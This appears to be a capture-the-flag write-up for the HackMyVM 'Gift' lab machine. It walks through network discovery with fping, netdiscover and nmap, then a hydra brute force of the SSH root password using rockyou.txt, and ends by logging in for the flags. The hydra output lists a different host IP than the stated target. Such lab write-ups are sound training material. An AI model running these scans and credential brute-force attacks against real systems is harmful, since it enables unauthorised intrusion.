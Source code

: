 # HMV-Gift
# Gift (Easy)
BanaN0nam3| 15.May.2023

_______________________________________________________________________

### Target IP: 192.168.56.102
## Kali_Machin_IP:192.168.56.103


## 1. Identify the target
Method #1: Fping
fping -aqg 192.168.56.0/24
Method #2: Netdiscover
sudo netdiscover -r 192.168.56.0/24
Method #3: Nmap
nmap -sn 192.168.56.0/24
Method #4 Scan network on windows
https://www.advanced-ip-scanner.com/

## 2. Nmapping

```bash
nmap -sC -sV  192.168.56.102
```

Result is an ssh server and a http server running nginx. The website contains nothing interesting. Just a text saying: "Dont Overthink. Really, Its simple." Doing a directory scan or a subdomain fuzzling, doesnt reveal anything at all. Even a "nikto" scan doesnt reveal anything useful. 

## 3. Bruteforce

Well time like this, calls for bruteforcing the ssh login. Ill bruteforce the root user because there isnt any other known user. You can use different tools to bruteforce it, but I will just use hydra:

```bash                                                                             
┌──(kali㉿kali)-[~]
└─$ sudo hydra -l root -P Desktop/rockyou.txt 192.168.56.102 ssh

```

After a few moment, it returns with a password:

```
[22][ssh] host: 192.168.1.112   login: root   password: simple
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
```

> user: root
> pass: simple

## 4. Getting the flag
Just ssh into it and get the 2 flags.
